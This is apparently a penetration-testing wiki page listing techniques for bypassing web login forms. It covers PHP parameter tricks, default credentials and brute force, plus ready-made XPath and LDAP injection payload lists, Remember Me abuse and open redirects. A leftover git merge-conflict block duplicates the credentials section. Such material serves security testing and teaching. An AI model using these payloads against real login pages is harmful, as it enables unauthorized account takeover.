 # Login Bypass

## **Bypass regular login**

If you find a login page, here you can find some techniques to try to bypass it:

* Check for **comments** inside the page (scroll down and to the right?)
* Check if you can **directly access the restricted pages**
* Check to **not send the parameters** (do not send any or only 1)
* Check the **PHP comparisons error:** _user\[]=a\&pwd=b_ , _user=a\&pwd\[]=b_ , _user\[]=a\&pwd\[]=b_
* Check credentials:
<<<<<<< HEAD
  * [**Default credentials**](../../brute-force.md#default-credentials) _\*\*_of the technology/platform used
  * **Common combinations** \(root, admin, password, name of the tech, default user with one of these passwords\).
  * Create a dictionary using **Cewl**, **add** the **default** username and password \(if there is\) and try to brute-force it using all the words as **usernames and password**
  * **Brute-force** using a bigger **dictionary \(**[**Brute force**](../../brute-force.md#http-post-form)**\)**
=======
  * [**Default credentials**](../../brute-force.md#default-credentials)** **of the technology/platform used
  * **Common combinations** (root, admin, password, name of the tech, default user with one of these passwords).
  * Create a dictionary using **Cewl**, **add** the **default** username and password (if there is) and try to brute-force it using all the words as **usernames and password**
  * **Brute-force** using a bigger **dictionary (**[**Brute force**](../../brute-force.md#http-post-form)**)**
>>>>>>> 72cbd88461ed0e65da5433596050dd2ecb643f6b

### SQL Injection authentication bypass

[Here you can find several tricks to bypass the login via **SQL injections**](../sql-injection/#authentication-bypass).

In the following page you can find a **custom list to try to bypass login** via SQL Injections:

{% content-ref url="sql-login-bypass.md" %}
[sql-login-bypass.md](sql-login-bypass.md)
{% endcontent-ref %}

### No SQL Injection authentication bypass

[Here you can find several tricks to bypass the login via **No SQL Injections.**](../nosql-injection.md#basic-authentication-bypass)****

As the NoSQL Injections requires to change the parameters value, you will need to test them manually.

### XPath Injection authentication bypass

[Here you can find several tricks to bypass the login via **XPath Injection.**](../xpath-injection.md#authentication-bypass)****

```
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```

### LDAP Injection authentication bypass

[Here you can find several tricks to bypass the login via **LDAP Injection.**](../ldap-injection.md#login-bypass)****

```
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```

### Remember Me

If the page has "**Remember Me**" functionality check how is it implemented and see if you can abuse it to **takeover other accounts**.

### Redirects

Pages usually redirects users after login, check if you can alter that redirect to cause an [**Open Redirect**](../open-redirect.md). Maybe you can steal some information (codes, cookies...) if you redirect the user to your web.

## Other Checks

* Check if you can** enumerate usernames **abusing the login functionality.
* Check if** auto-complete** is active in the password/**sensitive** information **forms** **input: **`<input autocomplete="false"`
